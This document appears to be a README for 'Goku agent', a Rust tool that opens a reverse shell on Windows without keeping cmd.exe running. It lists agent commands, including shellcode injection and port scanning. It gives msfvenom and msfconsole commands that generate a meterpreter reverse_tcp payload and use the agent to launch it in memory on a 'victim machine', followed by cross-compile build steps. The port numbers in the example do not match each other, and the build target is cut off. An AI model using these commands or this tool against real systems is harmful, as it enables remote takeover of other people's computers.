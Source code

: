 ## Goku agent

Allows to spawn a reverse shell without using cmd.exe permanently.

the cmd.exe is launch only if you make a request to the agent. The request is then launched into a dedicated thread of the process.

There are several commands that you can use:

* CMD your command
* PSH your command
* SCAN tcp ip port1 port2 port3
* ASM bytecode
* PIPES_LS

That way you can launch a meterpreter directly into memory.

On your linux machine:
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=192.168.0.46 LPORT=4443 -f hex
$ sudo msfconsole
msf5> use windows/x64/shell_reverse_tcp
msf5> to_handler
```

On your windows machine:
```
$ .\goku_tcp -u 192.168.0.46 -p 4444
```

Then you can use the asm command to spawn a meterpreter on the victim machine.

## Build
To install rust and cargo:
```
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
$ source $HOME/.cargo/env
$ source ~/.profile (if using zsh, write into ~/.zshrc: export PATH="$HOME/.cargo/bin:$PATH")
$ rustup toolchain install nightly
$ cargo -V
$ rustc -V
```

to cross compile:
```
$ sudo apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64
$ rustup toolchain install stable-x86_64-pc-windows-gnu
$ rustup toolchain install nightly
$ rustup default nightly
$ rustup target add x86_64-pc-windows-gnu
```

Then:
```
cargo build  --target x86_64-pc-windows-gn
```